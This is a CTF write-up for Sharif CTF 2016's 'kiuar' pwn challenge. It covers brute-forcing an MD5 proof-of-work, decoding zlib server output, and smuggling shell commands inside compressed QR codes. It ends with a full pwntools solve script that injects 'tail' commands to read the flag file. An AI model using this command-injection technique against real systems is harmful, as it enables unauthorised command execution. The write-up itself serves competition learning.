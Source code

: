 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: kiuar (pwn 200)"
author: skogler
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 200
* **Description:**

```
telnet ctf.sharif.edu 12432
Trying 213.233.175.130...
Connected to ctf.sharif.edu.
Escape character is '^]'.
Welcome to Sharif blackbox challenge :)
Proof of work: Are you ready?
Give me a 32-bit hex integer, whose leftmost 22 bits of its MD5 is 1000001010110000011101.
You have 60 seconds to reply.
```

## Write-up

When connecting to the given server address, it would present us with the above
task. The challenge was to compute the MD5 of a 32-bit integer so that the
leftmost 22 bit of the MD5 would match the given value. The bits to match
changed every time a new connection is established, but the length was fixed.
The server would also reject any input with less than 5 characters.

Our approach was to just loop over all integers and calculate MD5 hashes until
one matches the given bits.

This seemed quite easy at first, but the server would not accept my computed
values. Thankfully, my colleague did interpret the task differently; he found
out that we needed to compute the MD5 of the *hex string representation* of the
32-bit integer, so something like this:

```python
result_md5 = hashlib.md5(hex(i))
```

This finally worked, which brought us the next step of the challenge. We got
these bytes from the server:

```
00000000  78 9c 0b 4e  cd 4b 51 a8  cc 2f 2d 52  08 0c 52 48  │x··N│·KQ·│·/-R│··RH│
00000010  ce 4f 49 b5  e2 8a cc 2f  55 c8 48 2c  4b 55 30 34  │·OI·│···/│U·H,│KU04│
00000020  50 28 4e 4d  ce cf 4b 29  56 28 c9 57  28 4a 2d c8  │P(NM│··K)│V(·W│(J-·│
00000030  a9 d4 e3 02  00 9b f3 10  54                        │····│····│T│
```

We saved this to a file and ran the ```file``` tool on it:

```
result: zlib compressed data
```

Nice, so just run ```zlib.decompress``` on it in python:

```
Send your QR code:
You have 10 seconds to reply.
```

It seemed we could send some data hidden within a QR code. However, sending
this code was not quite easy. The first problem was that the server would only
accept messages compressed with zlib:


```
Your data is not in proper compressed format :(
```

This was solved by compressing the message using zlib. However, we also needed
to get a message of exactly 200 bytes, since the server would reject everything
else. To solve this, we compressed the payload first, then padded the message
with zero bytes so it had a  length of exactly 200.

The hard part was getting a QR code with a size smaller than 200 bytes. It
seems the typical tools to generate QR codes do not optimize for size at all.
After a long time of trial and error, we ended up with the following command to
generate the PNG QR code:

```
qrencode -s 1 -v 1 -m 1 -o test.png "<payload>" && optipng test.png
```

If the length of the payload was not too long (20 bytes or so, depending on the
characters), this would suffice.  It also took us quite a while to find out
that the server would only recognize the QR code if it had a margin of at least
1 pixels.

When finally succeeded, we found out that we could send shell commands inside the QR code.
There was a file called flag in the server's working directory, which we needed to read:

```
Flag: The output of your command is large, I only send 18 bytes of it :P
    SharifCTF{b5ffb0e6
```

Since the organizers did not allow us to just cat the file, we needed to run
the script multiple times and inject tail commands with different offsets to
reconstruct the flag manually.

Finally, here is the script we used to get the flag:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import ctypes
import struct
import hashlib
import sys
import zlib
import os
from pwn import *

context.log_level = 'info'


commands = [
        "tail -c 18 flag",
        "tail -c 36 flag",
        "tail -c 54 flag",
        ]

results = list()

for command in commands:
    os.system('qrencode -s 1 -v 1 -m 1 -o test.png "' + command + '" && optipng test.png')
    zcode = ""

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)
        print("len: {}".format(len(zcode)))
        zcode = zcode.ljust(200, '\x00')
        print("len: {}".format(len(zcode)))
        if len(zcode) > 200:
            sys.exit()

    conn = remote('ctf.sharif.edu', 12432)
    conn.recvline()
    conn.recvline()
    challenge = conn.recvline()

    data = ctypes.create_string_buffer(4)
    m = hashlib.md5()

    target_bits = challenge.split(" ")[-1][:-2]

    conn.clean_and_log()

    lower_bound = 0x100000
    upper_bound = 2**32

    for i in xrange(lower_bound, upper_bound):
        integer_hex         = hex(i)
        integer_hex_encoded = integer_hex.encode('utf-8')
        integer_hex_md5 = hashlib.md5()
        integer_hex_md5.update(integer_hex_encoded)

        md5 = integer_hex_md5.hexdigest()

        binary = bin(int(md5, 16))[2:]

        if binary.startswith(target_bits):
            #print("Hash {}".format(md5))
            conn.send(hex(i))
            break

    conn.recvline()
    result = conn.recv()

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)

        zcode = zcode.ljust(200, '\x00')
        conn.send(zcode)

    conn.recvline()
    res = conn.recv()
    log.info(res)

    results.append(res)

    conn.close()

log.info(",\n".join(results))
```

